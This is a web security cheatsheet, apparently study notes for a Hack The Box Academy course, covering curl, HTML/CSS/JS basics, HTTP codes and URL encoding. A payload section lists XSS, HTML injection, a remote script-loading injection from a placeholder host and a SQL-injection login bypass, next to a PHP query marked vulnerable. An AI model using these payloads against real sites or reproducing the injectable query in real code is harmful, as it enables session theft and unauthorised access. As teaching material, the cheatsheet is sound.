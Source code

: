 # Web Application Security Commands Cheatsheet

## HTTP Requests & Testing

### cURL Commands
```bash
# Get HTTP headers only
curl -I https://academy.hackthebox.com

# Get full webpage source
curl https://academy.hackthebox.com
```

### Browser Shortcuts
```
# View page source
Ctrl + U

# Right-click alternative when disabled
Right-click → View Page Source
```

## Code Examples Referenced

### HTML Structure
```html
<!DOCTYPE html>
<html>
    <head>
        <title>Page Title</title>
    </head>
    <body>
        <h1>A Heading</h1>
        <p>A Paragraph</p>
    </body>
</html>
```

### CSS Styling
```css
body {
  background-color: black;
}

h1 {
  color: white;
  text-align: center;
}

p {
  font-family: helvetica;
  font-size: 10px;
}
```

### JavaScript DOM Manipulation
```javascript
document.getElementById("button1").innerHTML = "Changed Text!";
```

### PHP Database Connection
```php
# Connect to MySQL
$conn = new mysqli("localhost", "user", "pass");

# Create database
$sql = "CREATE DATABASE database1";
$conn->query($sql)

# Connect to specific database
$conn = new mysqli("localhost", "user", "pass", "database1");
$query = "select * from table_1";
$result = $conn->query($query);

# User input query (vulnerable example)
$searchInput =  $_POST['findUser'];
$query = "select * from users where name like '%$searchInput%'";
$result = $conn->query($query);
```

## Testing Payloads

### HTML Injection Test
```html
<style> body { background-image: url('https://academy.hackthebox.com/images/logo.svg'); } </style>
```

### XSS Test Payload
```javascript
#"><img src=/ onerror=alert(document.cookie)>
```

### CSRF Script Loading
```html
"><script src=//www.example.com/exploit.js></script>
```

### Authentication Bypass
```
# SQL injection for auth bypass
Email field: ' or 0=0 #
Password: any_password
```

## HTTP Response Codes Reference

### Successful Responses
- `200 OK` - Request succeeded

### Redirection Messages
- `301 Moved Permanently` - URL changed permanently
- `302 Found` - URL changed temporarily

### Client Error Responses
- `400 Bad Request` - Invalid syntax
- `401 Unauthorized` - Unauthenticated attempt
- `403 Forbidden` - No access rights
- `404 Not Found` - Resource not found
- `405 Method Not Allowed` - Method disabled
- `408 Request Timeout` - Connection timeout

### Server Error Responses
- `500 Internal Server Error` - Server encountered unknown situation
- `502 Bad Gateway` - Invalid response from gateway
- `504 Gateway Timeout` - Gateway timeout

## URL Encoding Reference

| Character | Encoding |
|-----------|----------|
| space     | %20      |
| !         | %21      |
| "         | %22      |
| #         | %23      |
| $         | %24      |
| %         | %25      |
| &         | %26      |
| '         | %27      |
| (         | %28      |
| )         | %29      |

## SOAP Example Structure
```xml
<?xml version="1.0"?>
<soap:Envelope xmlns:soap="http://www.example.com/soap/soap/" soap:encodingStyle="http://www.w3.org/soap/soap-encoding">
<soap:Header>
</soap:Header>
<soap:Body>
  <soap:Fault>
  </soap:Fault>
</soap:Body>
</soap:Envelope>
```

## JSON REST API Response Example
```json
{
  "100001": {
    "date": "01-01-2021",
    "content": "Welcome to this web application."
  },
  "100002": {
    "date": "02-01-2021",
    "content": "This is the first post on this web app."
  }
}
```

## Common Technology Stacks

- **LAMP**: Linux, Apache, MySQL, PHP
- **WAMP**: Windows, Apache, MySQL, PHP
- **WINS**: Windows, IIS, .NET, SQL Server
- **MAMP**: macOS, Apache, MySQL, PHP
- **XAMPP**: Cross-Platform, Apache, MySQL, PHP/PERL
